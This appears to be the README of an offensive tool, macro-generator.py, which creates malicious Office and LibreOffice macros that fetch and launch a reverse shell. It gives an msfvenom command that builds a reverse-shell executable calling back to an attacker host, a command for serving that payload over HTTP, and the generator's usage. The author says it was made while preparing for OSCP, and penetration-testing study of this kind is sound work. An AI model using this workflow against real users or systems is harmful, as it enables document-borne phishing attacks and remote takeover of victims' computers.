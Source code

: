 ### macro-generator.py: Generate malicious macros using different techniques for MS Office and Libreoffice

One script to quickly generate macros with reverse shell using 3 methods for MS Office and 1 for Libreoffice or Openoffice
Created when preparing for OSCP

Create a reverse shell exe with something like the following
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe -o shell.exe
```

Set a http server up to deliver payload using techniques 3 and 4
```
python3 -m http.server 80
```

Generate macros to paste in Microsoft Office and Libre Office
```
python3 macro-generator.py --host 192.168.1.1 --port 443 -r 'shell.exe'
```

Help Menu
```
Usage: macro-generator.py: Generate malicious macros using different techniques for MS Office and Libreoffice [-h] [-l HOST] [-p PORT] [-r RSHELL_PATH]

options:
  -h, --help            show this help message and exit
  -l HOST, --host HOST  IP address of attacker host
  -p PORT, --port PORT  PORT number of attacker listener
  -r RSHELL_PATH, --rshell RSHELL_PATH
                        Reverse rshell.exe location hosted on attacker machine, default=/win/rshell.exe, i.g ":8000/exp/shell.exe"

```


